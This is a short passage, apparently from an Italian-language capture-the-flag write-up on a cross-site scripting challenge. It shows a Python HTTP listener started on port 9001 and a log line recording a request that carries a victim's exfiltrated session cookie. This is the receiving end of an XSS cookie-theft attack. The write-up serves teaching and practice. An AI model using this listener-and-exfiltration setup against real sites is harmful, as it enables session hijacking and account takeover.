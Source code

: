 ![Xss](./img/xss.png)

Si avvia un server python in ascolto sulla porta 9001 e si invia il report.

```bash

$ python3 -m http.server 9001

10.x.x.x - - [29/Sep/2025 13:17:55] "GET /session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU HTTP/1.1" 404 -

```
